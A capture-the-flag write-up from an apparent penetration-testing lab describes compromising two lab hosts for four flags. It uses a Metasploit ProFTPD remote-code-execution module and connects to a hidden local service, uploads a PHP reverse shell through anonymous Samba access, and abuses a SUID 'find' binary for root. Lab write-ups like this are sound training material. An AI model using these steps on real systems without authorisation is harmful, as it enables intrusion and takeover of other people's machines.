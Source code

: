 ## Host & Network Penetration Testing: Exploitation CTF 3

### Flag 1: A vulnerable service maybe running on target1.ine.local. If exploitable, retrieve the flag from the root directory.

We begin with an Nmap scan:
```
nmap -sS -T4 -p- target1.ine.local
```
```
nmap -sS -sV -T4 -p21,80 target1.ine.local
```
We discovered a vulnerable service on port 21: ProFTPD 1.3.5.
With the help of searchsploit, we found a Metasploit module used for RCE (remote code execution).

We choose to use this module in particular:
```
use exploit/unix/ftp/proftpd_modcopy_exec
```
The default payload is the Netcat one.
After a brief configuration, we try to execute the module without success.
Setting:
```
set SITEPATH /var/www/html
```
helps us to carry on a little bit, but anyway without success, because the module execute with an error.
However it created a session.
Interacting with the created session and navigating to the root, we can find the first flag.

### Flag 2: Further, a quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag.

This flag is a bit tricky.
After some time spent investigating, we discovered that the command "netstat" is what we need.
```
netstat -lae
```
There is a service in state "LISTENING" on localhost:8888 that we can connect to on the machine.
```
nc -v localhost 8888
letmein
```
and we obtain the second flag.

### Flag 3: A misconfigured service running on target2.ine.local may help you gain access to the machine. Can you retrieve the flag from the root directory?

On the second target we can identify tre ports open.
```
nmap -sS -T4 -sV -p80,139,445 targe2.ine.local
```
The Samba service is open to enumeration with an anonymous user.
```
smbclient -N -L target2.ine.local
smbclient -U anonymous -N //target2.ine.local/site-uploads
```
Serve type is Apache so we can try to upload a web shell written in PHP.
```
smb: \> put php-reverse-shell.php
nc -nlvp 1234
http://targe2.ine.local/site-uploads/php-reverse-shell.php
```
We obtain a reverse shell and the third flag on the root directory.

### Flag 4: Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?

After some research, we found a way to exploit a misconfiguration of SUID permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
In particular, the object of misconfiguration is the "find" command.

We try:
```
find /root -name "flag*.*"
```
finding the fourth flag that we can print in the terminal with the command:
```
find . -exec cat "/root/flag4.txt" \;
```
